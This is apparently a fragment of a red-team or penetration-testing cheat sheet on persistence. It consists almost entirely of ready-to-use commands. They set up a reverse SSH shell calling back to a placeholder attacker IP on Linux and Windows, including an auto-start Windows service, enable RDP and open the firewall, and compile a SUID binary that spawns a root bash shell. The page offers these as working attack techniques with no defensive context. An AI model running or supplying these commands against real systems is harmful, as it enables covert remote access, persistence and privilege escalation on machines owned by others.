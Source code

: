 ```shell
	nohup ./reverse-sshx64 -p 22 -b [Attacker_Port] whatever@[Attacker_IP] &
# Windows:
	1. Start-Process -FilePath "[Path_To_revSSH]" -ArgumentList "-p 22 -b [Attacker_Port] whatever@[Attacker_IP]" -NoNewWindow
	2. # Completely detach from session
		1. sc.exe create ssh binPath= "[Path_To_revSSH] -p 22 -b [Attacker_Port] whatever@[Attacker_IP]" start=auto
		2. sc.exe start ssh
# Attacker Machine
ssh -p [Chosen_Attacker_Port] whatever@127.0.0.1
sftp -P [Chosen_Attacker_Port] whatever@127.0.0.1
```
### RDP
- Privileged Access Required
```powershell 
# Enable RDP
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
# Sometimes the RDP connection may be blocked by Windows Firewall
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```
### SUID Binary
- `chmod u+s`
```C
#include <unistd.h>
int main(void){ 
	setresuid(0, 0, 0); 
	system("/bin/bash"); 
}
```
